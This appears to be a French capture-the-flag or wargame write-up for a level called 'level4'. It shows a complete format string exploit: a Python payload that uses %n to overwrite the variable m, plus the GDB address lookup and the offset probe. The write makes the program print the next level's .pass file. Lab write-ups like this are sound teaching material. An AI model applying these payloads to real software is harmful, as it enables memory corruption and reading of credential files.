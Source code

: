 # Exploit: Attaque de chaîne de format

**Commande**:  
```bash
python -c 'print "\x10\x98\x04\x08" + "%16930112c" + "%12$n"' > /tmp/exploit4
```

**Explication**:  
Ce niveau est presque le meme que le niveau d'avant, le seul changement est cette condition : 
```C
if (m == 0x1025544) {
        system("/bin/cat /home/user/level5/.pass");
}
```
- Utiliser GDB pour obtenir l'adresse de m. Lancez le débogage avec gdb ./level4, mettez un point d'arrêt sur la fonction pertinente avec `break n`, puis obtenez l'adresse de m avec `p &m` :
    $1 = (<data variable, no debug info> *) 0x8049810
- Exécuter une commande pour déterminer à quelle position les données entrées (ici AAAA) apparaissent dans les arguments passés à printf. Utilisez la commande :
   `python -c 'print "AAAA" + " %p" * 20' - | ./level4`
- Analyser la sortie pour localiser 0x41414141 (représentation hexadécimale de AAAA). Dans cet exemple, 0x41414141 apparaît à la 12e position, indiquant que AAAA est le 12e argument de printf.
- Construction du payload : L'adresse où écrire doit être incluse au début du payload pour s'assurer que printf écrit au bon endroit. Puisque vous souhaitez écrire à l'adresse de m : \x10\x98\x04\x08
- Le nombre total de caractères à imprimer avant de réaliser l'écriture doit être calculé. On doit écrire la valeur 0x1025544 à l'adresse de m. Le payload doit donc imprimer 16930112 caractères (16930116 moins les 4 octets de l'adresse) : %16930112c
Utiliser %12$n pour indiquer à printf d'écrire le nombre total de caractères imprimés à la 12e position dans la pile, où AAAA a été placé.
- Payload final : \x10\x98\x04\x08" + "%16930112c" + "%12$n

**Ressources**:

- [Les failles Format String - Zenk Security](https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20failles%20Format%20String.pdf)
- [Exploit 101: Format Strings - Axcheron](https://axcheron.github.io/exploit-101-format-strings/)
- [Format String Attack - OWASP](https://owasp.org/www-community/attacks/Format_string_attack)
